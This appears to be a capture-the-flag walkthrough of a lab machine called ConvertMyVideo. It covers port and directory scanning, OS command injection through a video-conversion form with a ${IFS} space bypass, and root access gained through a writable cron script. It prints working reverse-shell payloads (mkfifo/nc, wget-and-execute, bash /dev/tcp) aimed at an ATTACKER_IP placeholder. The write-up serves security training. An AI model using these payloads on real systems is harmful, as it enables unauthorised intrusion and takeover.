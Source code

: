 # ConvertMyVideo

##### Difficulty: [ Medium ]

**Tags:** `Linux`,  `nmap`,  `Gobuster`,  `http source code`,  `OS injection`,  `reverse shell`,  `pspy`,  `cronjob`

---

##### Written: 10/12/2021

##### IP address: 10.10.77.218

---

### [ What is the name of the secret folder? ]

As always, we start things off with a full **nmap** scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- -oN full_nmap 10.10.77.218
```

**Results:**

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
| ssh-rsa 
[REDACTED]
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
| ecdsa-sha2-nistp256 
[REDACTED]
|   256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBKsS7+8A3OfoY8qtnKrVrjFss8LQhVeMqXeDnESa6Do
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there are only **2** ports open: **22** (SSH) and **80** (HTTP)

Let's take a look at the HTTP webserver:

<img style="float: left;" src="screenshots/screenshot1.png">

We have a simple web page where we can input a Youtube video ID. The page will then supposedly convert the target video to MP3 format for us to download.

Let's run a **Gobuster** scan to enumerate any hidden directories.

```
gobuster dir -u http://10.10.77.218/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,html,txt,js -t 50
```

<img style="float: left;" src="screenshots/screenshot2.png">

From the results, we find the name of the secret folder: **/admin**

---

### [ What is the user to access the secret folder? ]

Let's visit the **/admin** subdirectory:

<img style="float: left;" src="screenshots/screenshot3.png">

Looks like we need some credentials. I tried common credentials like **admin:admin**, but those did not work.

Let's move on and do some manual enumeration.

Looking at the source code of the web page, we can see that it loads in another javascript file called **main.js**:

<img style="float: left;" src="screenshots/screenshot4.png">

**main.js** actually contains the functionality of the page on the client-side:

<img style="float: left;" src="screenshots/screenshot5.png">

We can see that the page takes in the user input and appends it to "https://www.youtube.com/watch?v=". A fair assumption to make is that this url will then be passed to some internal program that is running on the server-side, which actually does the conversion to MP3. Of course, as the machine does not have access to the Internet, the conversion should never work as the machine will not be able to reach Youtube.

<br>

At this stage, the first thought that came to my mind was: **Command Injection**.

If the user input is being passed to a command-line program and is being executed on the shell-level, then perhaps we can inject some of our own OS commands to be run!

<br>

To check whether the input is indeed being passed to a command-line program, let's try to input '**test**':

<img style="float: left;" src="screenshots/screenshot6.png">

We get an interesting error message in the response. If we do a Google search of the error, we find that the error actually comes from an open-source program called **youtube-dl** (https://github.com/ytdl-org/youtube-dl).

<img style="float: left;" src="screenshots/screenshot7.png">

From the Github page, we confirm that this program is indeed a command-line program! This means that command injection most likely the way to go.

<br>

Let's try injecting our own commands. We'll start off by trying to inject the `id` command. 

*(More payloads can be found at https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)*

Let's try a basic bypass using the `;` symbol: 

`test;id;`

<img style="float: left;" src="screenshots/screenshot8.png">

Nice it works! :smile: *(Note: instead of `;`, we can also use* `|`*)*

<br>

Now we can try setting up a **reverse shell** so that we can gain an initial foothold into the machine. 

*(Payload used is from: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)*

I saved the following payload into a file onto my local machine:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

<img style="float: left;" src="screenshots/screenshot9.png">

I then set up a simple HTTP server so that we can download the file onto the target machine. We can then inject the following commands into the web page:

`test;wget http://ATTACKER_IP:8000/shell.sh;chmod +x shell.sh;./shell.sh;`

This will have the target machine download our reverse shell script, make it executable, then execute it.

<img style="float: left;" src="screenshots/screenshot10.png">

Hmmm there seems to be a problem with our payload. If we look closely at the error message, it seems that there is an argument  error with our `wget` command. Most likely, the **spaces** in our payload are being stripped before being sent to the command-line.

To bypass the space stripping, we can use `${IFS}` to replace the spaces.

---

**From:** https://bash.cyberciti.biz/guide/$IFS

<img style="float: left;" src="screenshots/screenshot11.png">

---

Now our payload becomes:

`test;wget${IFS}http://ATTACKER_IP:8000/shell.sh;chmod${IFS}+x${IFS}shell.sh;./shell.sh;`

We send in the payload...

<img style="float: left;" src="screenshots/screenshot12.png">

And we're in! :smiling_imp:

<br>

There is a directory called **admin** in **/var/www/html**:

<img style="float: left;" src="screenshots/screenshot13.png">

There is a hidden file called **.htpasswd** in this **admin** directory:

<img style="float: left;" src="screenshots/screenshot14.png">

This file contains the **user** that can access the **/admin** subdirectory on the web server:

<img style="float: left;" src="screenshots/screenshot15.png">

The user is: **itsmeadmin**

*Note: there's no need to crack the password hash as it is not needed to complete this challenge.*

---

### [ What is the user flag? ]

The **user flag** can be found in the same directory:

<img style="float: left;" src="screenshots/screenshot16.png">

---

### [ What is the root flag? ]

Now that we're in, let's find a way to escalate our privileges.

Doing some digging around the filesystem, I found an interesting file called **clean.sh** in **/var/www/html/tmp**:

<img style="float: left;" src="screenshots/screenshot17.png">

This file is owned by **www-data** and is also writable. Let's look at the contents:

<img style="float: left;" src="screenshots/screenshot18.png">

Just a simple `rm` command...

From my past experiences with CTF challenges, these sort of 'clean-up' scripts are normally run periodically as a **cronjob**. Let's check **/etc/crontab** to see if clean.sh is being run as a cronjob:

<img style="float: left;" src="screenshots/screenshot19.png">

Nothing here...

With that said, it is possible to set up cronjobs without including them in the /etc/crontab file. Hence, let's use a nifty tool called **pspy** to see if this is the case (https://github.com/DominicBreuker/pspy/blob/master/README.md). **pspy** allows us to snoop on processes without the need for root permissions.

<img style="float: left;" src="screenshots/screenshot20.png">

Sure enough, after a minute has passed, we see that the **clean.sh** was indeed run! Furthermore, it was run by user with UID=0, aka **root**!

<br>

Since clean.sh is writeable by us, all we have to do is replace it with a **reverse shell script**:

```
echo 'bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1' > clean.sh
```

Now set up a netcat listener, sit back and wait.

<img style="float: left;" src="screenshots/screenshot21.png">

We're now root!

The root flag can be found in **/root**:

<img style="float: left;" src="screenshots/screenshot22.png">
